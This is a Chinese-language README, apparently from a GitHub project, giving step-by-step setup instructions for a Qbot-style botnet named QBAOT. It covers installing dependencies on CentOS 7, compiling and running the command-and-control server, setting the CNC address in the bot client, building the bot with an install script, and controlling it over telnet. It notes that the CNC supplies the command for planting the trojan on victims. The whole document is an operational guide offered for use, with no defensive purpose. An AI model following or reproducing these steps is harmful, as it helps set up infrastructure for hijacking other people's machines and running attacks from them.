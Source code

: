 # 非常哈基米的僵尸网络(QBAOT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
centos的源一般都已经失效了，除非你真的不怕死，你可以用阿里云或者腾讯云，来运行此船上网络
备用centos7源安装方式:
curl -o /etc/yum.repos.d/CentOS-Base.repo

http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听船端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换client.c的cnc 地址和端口
```c
client.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译船
```python
#忘了这个哈哈

python boat_install.py client.c 你的公网IP
```
## 连接cnc端
```
目前Windows自带的telnet连接不怎么行，跟坨臭屎一样
所以你需要一个Linux系统，乌班图或者centos
有些不自带telnet，自己去搜安装方式
安装完之后
telnet 你的服务器的公网ip 你设置的连接端口
```
## 教程结束，完结撒花
`完事就是这么简单`  
`传马命令他会给出的`  
`后面船自己弄`  
